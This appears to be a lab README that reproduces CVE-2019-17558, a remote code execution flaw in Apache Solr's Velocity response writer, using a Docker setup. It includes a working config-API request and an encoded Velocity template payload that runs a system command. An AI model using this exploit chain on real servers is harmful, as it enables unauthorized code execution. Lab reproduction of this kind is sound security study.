


# Apache Solr Remote Code Execution Via Velocity Custom Template (CVE-2019-17558)

[中文版本(Chinese version)](README.zh-cn.md)

Solr is the popular, blazing-fast, open source enterprise search platform built on Apache Lucene(TM).

Apache Solr 5.0.0 to Apache Solr 8.3.1 are vulnerable to a Remote Code Execution through the VelocityResponseWriter. A Velocity template can be provided through Velocity templates in a configset `velocity/` directory or as a parameter. A user defined configset could contain renderable, potentially malicious, templates. Parameter provided templates are disabled by default, but can be enabled by setting `params.resource.loader.enabled` by defining a response writer with that setting set to `true`. Defining a response writer requires configuration API access. Solr 8.4 removed the params resource loader entirely, and only enables the configset-provided template rendering when the configset is `trusted` (has been uploaded by an authenticated user).

References:

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## Setup

```
docker-compose up -d
```

## Vulnerability Reproduce

First of all, you need to get all cores name through the following API:

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

The `demo` is the only core here:



Enable the `params.resource.loader.enabled` config through the following API, the API endpoint is `/solr/[core name]/config`:

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

Then, trigger the vulnerability by Velocity template:

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```


